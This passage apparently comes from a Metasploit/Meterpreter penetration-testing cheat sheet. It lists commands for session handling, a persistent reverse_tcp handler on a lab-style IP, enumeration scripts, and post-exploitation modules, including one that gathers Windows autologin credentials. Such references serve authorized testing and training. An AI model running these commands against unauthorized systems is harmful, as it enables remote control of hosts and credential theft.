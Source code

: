 ## Session Management

### Multiple Sessions
```bash
# List active sessions
meterpreter > sessions

# Interact with specific session
meterpreter > sessions -i 2

# Kill session
meterpreter > sessions -k 1

# Background current session
meterpreter > background
```

### Session Persistence
```bash
# Create persistent handler
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.113
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > exploit -j
```

## Scripting and Automation

### Meterpreter Scripts
```bash
# Run built-in scripts
meterpreter > run checkvm
meterpreter > run get_application_list
meterpreter > run get_local_subnets
meterpreter > run winenum
```

### Resource Scripts
```bash
# Create resource script
echo "sysinfo" > /tmp/enum.rc
echo "getuid" >> /tmp/enum.rc
echo "ps" >> /tmp/enum.rc

# Run resource script
meterpreter > resource /tmp/enum.rc
```

### Post-Exploitation Modules
```bash
# System enumeration
msf6 > use post/windows/gather/enum_system
msf6 > use post/windows/gather/credentials/windows_autologin

# Network enumeration
msf6 > use post/windows/gather/enum_shares
msf6 > use post/windows/gather/enum_computers
```
